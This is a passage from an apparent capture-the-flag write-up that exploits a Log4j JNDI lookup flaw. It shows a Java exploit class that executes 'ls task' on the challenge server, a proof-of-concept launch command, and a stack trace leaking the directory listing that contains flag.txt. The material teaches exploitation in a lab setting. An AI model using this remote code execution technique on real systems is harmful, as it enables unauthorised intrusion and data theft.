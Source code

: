   We can see that there is a directory named `task`, which seems like a good place for the flag to be hidden(task is not a default Linux directory)
  
  ```python
  program = """

import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.OutputStream;
import java.net.HttpURLConnection;
import java.net.Socket;
import java.net.URL;
import java.net.URLEncoder;
import java.nio.charset.StandardCharsets;
import java.util.HashMap;
import java.util.Map;
import java.util.StringJoiner;


public class Exploit {
    public Exploit() throws Exception {

        Process p = Runtime.getRuntime().exec("ls task");
        BufferedReader br = new BufferedReader(new InputStreamReader(p.getInputStream()));
        String line;
        StringBuilder line2 = new StringBuilder();

        while ((line = br.readLine()) != null) {
            line2.append(line);
            line2.append(",");
        }

        throw new Exception(line2.toString());
    }}
"""
```
  
  
  Again:
  **Note:** We must disconnect the python program and connect again (Ctrl+c)
  (the one started with  `python3 poc.py --userip localhost --webport 8000 --lport 9001` )
 
  We see this exception
  ```java
  Exception: chall.jar,flag.txt,]; remaining name 'a'
	at com.sun.jndi.ldap.LdapCtx.c_lookup(LdapCtx.java:1120)
	at com.sun.jndi.toolkit.ctx.ComponentContext.p_lookup(ComponentContext.java:542)
	at com.sun.jndi.toolkit.ctx.PartialCompositeContext.lookup(PartialCompositeContext.java:177)
	at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:205)
	at com.sun.jndi.url.ldap.ldapURLContext.lookup(ldapURLContext.java:94)
	at javax.naming.InitialContext.lookup(InitialContext.java:417)
	at org.apache.logging.log4j.core.net.JndiManager.lookup(JndiManager.java:172)
	at org.apache.logging.log4j.core.lookup.JndiLookup.lookup(JndiLookup.java:
  .........
  ```
  There's a flag.txt inside.
  